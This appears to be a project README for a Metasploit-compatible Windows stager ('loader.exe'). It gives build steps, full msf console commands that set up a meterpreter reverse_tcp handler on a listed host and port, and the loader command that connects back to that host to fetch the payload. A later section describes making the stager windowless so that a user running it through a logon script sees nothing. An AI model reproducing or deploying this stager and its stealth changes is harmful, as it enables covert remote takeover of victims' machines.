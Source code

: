 A quick stager client compatible with the Metasploit Framework

Reference:

1. http://mail.metasploit.com/pipermail/framework/2012-September/008660.html
2. http://mail.metasploit.com/pipermail/framework/2012-September/008664.html

Use:

1. Start a multi/handler with your favorite windows reverse_tcp payload
2. Run: loader.exe [host] [port]

How to compile:

1. Install mingw
2. Edit build.bat if mingw is installed somewhere other than c:\mingw
3. run build.bat

ToDo:

1. 64-bit compatability (see message #2)
2. get a Windows build environment with make

How to use:
```
msf > use exploit/multi/handler 
msf  exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > set LPORT 31337
LPORT => 31337
msf  exploit(handler) > set LHOST 192.168.95.241
LHOST => 192.168.95.241
msf  exploit(handler) > exploit -j
```

loader.exe 192.168.95.241 31337

Added by Josh
-------------

I made some modifications to the original loader.  Instead of compiling to a console application, which will require an open console (and will open one, if one doesn't already exist), this is now a windows executable.  The `winmain()` function processes windowing system messages, and runs the former `main()` function in the background using a thread.  

This way, if you are running the stager in some fashion that has it executing in a desktop session (e.g., via a logon script), the user will not see an annoying popup.

I've also added a halfway decent `Makefile`, so it's easy to mint a fresh 32- and 64-bit version of the loader as needed.
